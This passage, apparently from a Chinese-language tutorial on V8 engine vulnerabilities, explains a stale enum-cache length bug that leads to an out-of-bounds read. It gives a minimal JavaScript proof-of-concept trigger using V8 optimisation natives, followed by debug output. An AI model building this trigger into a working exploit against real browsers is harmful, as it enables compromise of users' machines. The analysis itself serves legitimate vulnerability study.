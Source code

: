 
- 储存在栈上
![](/img/chapter8/asm6.png)


不知道您读到这里是否意识到了问题所在，这里存在一个非常巧妙的问题：假设代码在加载了长度以后重新更新了这份缓存，而新缓存的长度小于旧缓存，由于更大的长度已经事先被加载到栈上了，因此以它作为基准将有可能出现 OOB。

该漏洞相关的最简 POC ：

```javascript

const object1 = {};
object1.a = 1;
const object2 = {};
object2.a = 2;
object2.b = 3;
const object3 = {};
object3.a = 4;
object3.b = 5;
object3.c = 6;

for (let key in object2) { } 

function trigger(callback) {
    for (let key in object2) {
        callback();
        console.log(object2[key]);
    }
}
% PrepareFunctionForOptimization(trigger);
trigger(_ => _);
trigger(_ => _);
% OptimizeFunctionOnNextCall(trigger);
trigger(_ => {
    object3.c = 1.1;  
    for (let key in object1) { }
});
```

在 Debug 版本下，该代码将会导致崩溃，而在 Release 下，它的结果如下：

![](/img/chapter8/pocres.png)


  [0]: 0x93700002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 4, attrs: [WEC]) @ Any
  [1]: 0x93700002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 3, attrs: [WEC]) @ Any
  [2]: 0x93700002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 2, attrs: [WEC]) @ Any
  [3]: 0x93700002a51: [String] in ReadOnlySpace: #d (const data field 3:s, p: 1, attrs: [WEC]) @ Any
  [4]: 0x93700002a61: [String] in ReadOnlySpace: #e (const data field 4:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0xf6100002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (data field 2:d, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any
